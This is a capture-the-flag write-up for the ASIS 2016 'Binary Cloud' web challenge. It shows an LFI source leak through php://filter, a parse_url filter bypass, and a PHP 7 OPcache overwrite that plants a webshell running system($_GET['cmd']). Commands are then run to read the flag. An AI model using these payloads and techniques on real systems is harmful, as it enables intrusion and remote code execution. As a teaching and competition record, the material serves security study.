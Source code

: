 ```yaml
---
layout: post
title: Binary Cloud
category: ASIS-2016
---
```


## Description

You can upload anything you want! (But please, do not inject php files.)
Due to the security issues, you can only upload one file per request.
Note that the server removes all uploaded/cached files every minute.

Regards,
ASIS Team.

---

## The Challenge

This was a very fun challenge for me, as it was based off my own [research](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

**1. Information Gathering**

I started things off by looking for a `robots.txt` file.

Going to `https://binarycloud.asis-ctf.ir/robots.txt` shows us three entries :

![robots](/assets/img/asis-2016/robots.png){:width="200"}

Visiting the `/cache` and `/uploads` pages show us a `forbidden` message.
On the other hand, following the link `/debug.php` gives us a `phpinfo()` page!

![phpinfo](/assets/img/asis-2016/phpinfo.png)

From this page, we know that they're running PHP 7.0.4.

As the description and `robots.txt` mentionned cache files, I checked if OPcache is enabled. Turns out it is, and its location corresponds to the `/cache` folder found in the robots.txt file :

``` ini
opcache.file_cache=/home/binarycloud/www/cache
```
**2. Obtaining the Source Code**

Looking at the URLs, we can notice right away a potential LFI vulnerability, as the upload module URL looks like the following :

```
https://binarycloud.asis-ctf.ir/?page=upload
```

We can use [PHP wrappers](http://php.net/manual/en/wrappers.php.php) to obtain the source code :

```
http://binarycloud.asis-ctf.ir?page=php://filter/convert.base64-encode/resource=upload
```

Viewing the source of the URL above will give us the `base64` encoded source code :

![base64](/assets/img/asis-2016/base64.png)

This is a section of the `upload.php` script :

``` php
<?php
function ew($haystack, $needle) {
    return $needle === "" || (($temp = strlen($haystack) - strlen($needle)) &gt;= 0 &amp;&amp; strpos($haystack, $needle, $temp) !== false);
}

function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}

function error($msg){
  die("&lt;script&gt;alert('$msg');history.go(-1);&lt;/script&gt;");
}

filter_directory();

if($_SERVER['QUERY_STRING'] &amp;&amp; $_FILES['file']['name']){
  if(!file_exists($_SERVER['QUERY_STRING'])) error("error3");
  $name = preg_replace("/[^a-zA-Z0-9\.]/", "", basename($_FILES['file']['name']));
        if(ew($name, ".php")) error("error");
  $filename = $_SERVER['QUERY_STRING'] . "/" . $name;
  if(file_exists($filename)) error("exists");
  if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)){
    die("uploaded at &lt;a href=$filename&gt;$filename&lt;/a&gt;&lt;hr&gt;&lt;a href='javascript:history.go(-1);'&gt;Back&lt;/a&gt;");
  }else{
    error("error");
  }
}
?>
```

From this code, we know that :

  - We can't upload `.php` files.
  - Our request URI must not contain the strings `cache` or `binarycloud`.
  - Our filename is filtered through `preg_replace()` and `basename()`.

Since we can't upload `.php` files, the goal will most likely be to inject `.php.bin` files in the `/cache` folder so we can run our own code.

**3. Bypass filter_directory()**

The upload module takes the query string of our POST request and uses it as the destination folder for our file.

Sending a POST request at `/upload.php?TEST` will try to upload our file in the `TEST/` folder.

Since we want to upload in the `cache/` folder, we need to send our POST request to `/upload.php?cache`.
The problem here is that `filter_directory` will block us from using the `cache` keyword :

``` php
<?php
function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}
?>
```

This function can be bypassed though, as `parse_url` takes a `URL` as a parameter. It does not deal well with `URIs`.

Sending a request to `///upload.php?cache` (note the additional slashes) will make `parse_url()` interpret the `URI` as a malformed `URL` and will return `false`. Therefore, `preg_match()` will never match the filtered strings.

**4. Creating our Payload**


As we've mentionned earlier, the challenge uses OPcache as their caching engine.

Our goal is to override the cache file of either `debug.php`, `index.php` or `upload.php`, so that when we'll request those pages, the webserver will serve up our malicious cache file instead of the original content.

We'll need my tools on [github](https://github.com/GoSecure/php7-opcache-override). We also have a full guide on how to override cache files [here](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

From the `debug.php` page, we know that it's an x86_64 platform. I deployed a 64 bit Ubuntu VM with PHP 7 installed and I generated a cache file named `debug.php.bin`.

The generated cache file is a compiled version of the following webshell :

``` php
<?php
  system($_GET['cmd']);
?>
```

I then calculated the `system_id` used by our target webserver by using the `system_id_scraper.py` script found in my github repo :

``` shell
$ ./system_id_scraper.py https://binarycloud.asis-ctf.ir/debug.php
PHP version : 7.0.4-7ubuntu2
Zend Extension ID : API320151012,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : 81d80d78c6ef96b89afaadc7ffc5d7ea
```

Finally, I changed the `system_id` of `debug.php.bin` with the one of the server using a hex editor.

The resulting `debug.php.bin` is a compiled version of a webshell configured to be used by the server's OPcache.

**5. Finale**

Finally, it's time to send our payload.

I uploaded the `debug.php.bin` file and intercepted it with Burpsuite. At this point, we have to set the path of the server-side `debug.php.bin` that we want to overwrite.

The path of the current `debug.php.bin` is at `[cache location][system id][document root][debug.php.bin]`. The only thing missing is the document root, which is available in the `/debug.php` page.

We also need to add the extra slashes to bypass the `filter_directory()` function.

Here's my payload :

![payload](/assets/img/asis-2016/payload.png)

Now, when we navigate to `https://binarycloud.asis-ctf.ir/debug.php`, we have our webshell!

The flag is located at the root of the filesystem :

``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="ls /"
WH4T_1S_7H3_FL4G
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="cat /WH4T_1S_7H3_FL4G"
ASIS{5e00f204374f9ce481acc97294eda1f0}
```

**Flag :** ASIS{5e00f204374f9ce481acc97294eda1f0}
